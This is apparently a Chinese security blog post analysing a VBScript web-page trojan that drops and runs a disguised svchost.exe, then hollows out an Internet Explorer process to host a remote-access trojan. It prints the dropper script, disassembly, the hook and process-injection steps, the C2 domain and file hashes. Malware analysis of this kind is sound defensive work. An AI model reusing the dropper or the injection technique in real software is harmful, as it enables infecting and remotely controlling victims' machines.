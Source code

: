 ```yaml
---
published: true
title: VBS页面木马简单分析
layout: post
tags: [安全, 逆向]
categories: [安全]
---
```


### 简述

最近监控到一种VBS网页挂马数量大规模爆发，影响近数万的site，初步怀疑数量的井喷与最近连续爆出的高危漏洞有关，这里对其中使用到的加密注入技术进行简单分析。

像骗子一般会用比较低级的骗术过滤掉聪明的人来降低行骗成本，这个木马也同样是这样，直接在页面中用VBS写编码后的PE文件，简单粗暴，只有IE的安全级别为低且允许运行VBS的情况下才会中招。一般这样的用户没有什么安全意识，电脑也基本没有防护，控制者几乎可以为所欲为。

简单粗暴的挂马代码如下

```vbscript
DropFileName = "svchost.exe"
// 编码后的PE文件
WriteData = "4D5A90000300000..."
Set FSO = CreateObject("Scripting.FileSystemObject")
// 保存文件为Temp文件夹下的svchost.exe
DropPath = FSO.GetSpecialFolder(2) & "\" & DropFileName
If FSO.FileExists(DropPath) = False Then
    Set FileObj = FSO.CreateTextFile(DropPath, True)
    For i = 1 To Len(WriteData) Step 2
        FileObj.Write Chr(CLng("&H" & Mid(WriteData,i,2)))
    Next
    FileObj.Close
End If
// 运行该程序
Set WSHshell = CreateObject("WScript.Shell")
WSHshell.Run DropPath, 0
```

把挂马的PE文件内容保存下来，通过下面的代码还原成二进制文件。

```python
import re
arr = re.compile('.{2}').findall(open('virus').read())
open('virus.pe', 'w').write(''.join([chr(int(i, 16)) for i in arr]))
```

### 脱壳解密

PEID查壳，显示为```UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo```，直接ESP下断脱掉后放入IDA中分析，查看字符串，发现并没有什么特别的东西，有很多API字符串，判断代码还是被加密，分析找到解密代码如下，算法比较简单。

```
UPX0:004084AA 8D 7F 01                  lea     edi, [edi+1]
UPX0:004084AD FF 77 01                  push    dword ptr [edi+1]
UPX0:004084B0 8A 24 24                  mov     ah, byte ptr [esp+8+var_8]
UPX0:004084B3 E9 81 EF FF FF            jmp     loc_407439

loc_407439: 
UPX0:00407439 83 C4 04                  add     esp, 4
UPX0:0040743C 80 F4 A2                  xor     ah, 0A2h
UPX0:0040743F C0 C4 16                  rol     ah, 16h
UPX0:00407442 C0 CC 08                  ror     ah, 8
UPX0:00407445 80 EC 6C                  sub     ah, 6Ch
UPX0:00407448 30 61 00                  xor     [ecx+0], ah
UPX0:0040744B 41                        inc     ecx
UPX0:0040744C 4A                        dec     edx
UPX0:0040744D 8B DA                     mov     ebx, edx
UPX0:0040744F 81 EB 09 58 CD 2F         sub     ebx, 2FCD5809h
UPX0:00407455 52                        push    edx
UPX0:00407456 53                        push    ebx
UPX0:00407457 8B D4                     mov     edx, esp
UPX0:00407459 81 42 00 09 58 CD 2F      add     dword ptr [edx+0], 2FCD5809h
UPX0:00407460 5B                        pop     ebx
UPX0:00407461 5A                        pop     edx
UPX0:00407462 0F 85 42 10 00 00         jnz     loc_4084AA
UPX0:00407468 E8 75 0F 00 00            call    sub_4083E2    ;跳转到解密后代码
UPX0:0040746D C3                        retn
```

这里代码跳转后，依旧还是一段用来解密的shell，OD中跟几步，发现它在读写0x400000的PE头，判断它会把解密后的代码写回.text段，直接在0x401000处下硬件写入断点，几次F9后到解密代码，继续往下跟，在调用LoadLibrary和GetProcessAddress重建导入表后跳转到真正的EP，在这里dump后用ImportREC重建输入表拖入IDA中分析。

### 母体分析

这是一个典型的恶意程序母体，它只做下面三步：

1. 创建"KyUffThOkYwRRtgPP"互斥体，保证只有一个实例在运行;

2. 从注册表中读取IE的文件目录，将自身写入IE文件夹中，命名为DesktopLayer.exe并执行，原始进程退出。

3. 若自身的进程名为DesktopLayer.exe，进入正常流程。正常流程调用CreateProcess启动一个IE进程，并将子体注入IE中运行。注入过程比较有意思，详细分析一下：

* 第一步：挂起自身所有线程，用inline hook方法hook ZwWriteVirtualMemory函数，再恢复线程执行，实际上这里并没有多线程环境，病毒作者应该是使用了通用hook库。可以看下面ZwWriteVirtualMemory函数hook前后的对比。

```
ntdll.ZwWriteVirtualMemory 
7C92DFAE       B8 15010000         mov eax,115
7C92DFB3       BA 0003FE7F         mov edx,7FFE0300
7C92DFB8       FF12                call dword ptr ds:[edx]
7C92DFBA       C2 1400             retn 14

ntdll.ZwWriteVirtualMemory
7C92DFAE       E9 A64AAD83         jmp DesktopL.00402A59
7C92DFB3       BA 0003FE7F         mov edx,7FFE0300
7C92DFB8       FF12                call dword ptr ds:[edx]
7C92DFBA       C2 1400             retn 14
```

* 第二步：调用CreateProcess来创建IE进程，CreateProcess会调用CreateProcessInternalW函数来处理真正的创建进程流程，这个函数中最终会调用ZwWriteVirtualMemory函数来将程序文件和DLL库写到新进程的地址空间中，这个过程自然就触发了hook函数的执行。

* 第三步: 通过hook函数向子进程的0x20010000处注入长度为0x9800的子体，并且继续注入几段代码和数据，然后调用ZwQueryInformationProcess获得子进程加载基址，在其EP处写入12个字节。这12个字节是三条汇编指令，作用是跳转执行恶意代码。12字节指令如下：

```
0040DFA7  BF 00000400         mov edi,40000   // 0x40000和0x50000是调用VirtualAlloc申请内存时
0040DFAC  68 00000500         push 50000      // 返回，不同机器和环境返回值不一样
0040DFB1  FFD7                call edi
```

到此IE进程已经被掏空并塞满了恶意代码，进程创建完毕后，主线程一旦开始执行，便会跳转到恶意代码处，此时IE进程已经成了披着羊皮的狼。总结其母体代码流程如下:

```c++
void __usercall start(unsigned __int8 *a1<edi>)
{
  int mutex_handler; // eax@2
  DWORD len; // eax@5

  if ( get_ie_exe_path(&ie_exe_path, 0x400u) == 1 )
  {
    mutex_handler = create_mutex("KyUffThOkYwRRtgPP");
    if ( mutex_handler )
    {
      close_mutex((HANDLE)mutex_handler);
      mutex_handler = 1;
    }
    if ( mutex_handler == 1 )
    {
      len = GetModuleFileNameA(NULL, module_file_name, 0x104u);
      set_end_of_str(module_file_name, len);
      if ( copy_self_to_ie_path(module_file_name) == 1 )
        ExitProcess(0);
      if ( get_APIs_address() == 1 )
      {
        inline_hook_function(a1);
        create_process((LPSTR)&ie_exe_path, 1u);
        unhook_function();
      }
    }
  }
  ExitProcess(0);
}
```

### 子体分析

在母体进行代码注入时，总共会调用VirtualAllocEx和WriteProcessMemory注入下面列出的六次代码：

```
LoaclAddress   RemoteAddress   Size
0x20010000     0x20010000      0xD0000
0x004022F0     0x00020000(*)   0x233
0x00402523     0x00030000(*)   0xDF
0x00401F5D     0x00040000(*)   0xAF
0x00121FEC     0x00050000(*)   0x138
0x0040DFA7     0x00402451      0xC
```

写到0x20010000处的代码是病毒子体，直接从母体中把子体抓出是无法分析的，其代码做了加密，并且缺少几段一同注入的解密代码。

这里有两个思路，一种是在VirtualAllocEx和WriteProcessMemory下断，把第一个参数hProcess换成-1，让它把代码写入自己的内存，在拷贝最后12个字节时将EIP跳过去开始执行；另一种是把最后拷贝到子进程的12个字节中第一个字节换成CC，并且把OD设置为默认调试器，子进程开始运行会自动触发int 3断点被OD attach上，恢复第一个字节，继续跟踪即可。

我这里选择了第一种方式，用这种方法跳转后的代码依旧是shell，完成对子体代码的导入表修复和重定向，最终才会跳转到0x20017c79处真正的子体代码开始执行。

到此，木马子体已经完全释放完毕，接下来就是具体的功能实现，这是一个非常典型的远控木马，不再详细分析。其控制域名为fget-career.com，行为分析报告参考这里。[行为分析报告](http://a.virscan.org/ff5e1f27193ce51eec318714ef038bef)

病毒文件MD5: ff5e1f27193ce51eec318714ef038bef

脱壳后文件MD5: 7bb9db2b8b37a918ab101d0687a9866b
